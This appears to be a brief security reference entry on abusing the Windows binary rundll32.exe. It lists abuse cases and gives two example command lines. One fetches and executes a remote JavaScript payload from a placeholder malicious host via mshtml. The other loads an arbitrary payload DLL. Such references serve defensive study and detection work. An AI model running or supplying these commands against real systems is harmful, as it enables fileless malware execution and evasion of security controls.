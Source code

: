 # rundll32.exe
## What is it?
*rundll32.exe is used to execute functions in DLL files.*

## How to abuse it
- *Runs malicious DLLs or executes JavaScript payloads.*
- *Used in fileless malware attacks.*

## Example Attacks
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication " "http://malicious[.]site/payload.js"

rundll32.exe shell32.dll,Control_RunDLL payload.dll
```
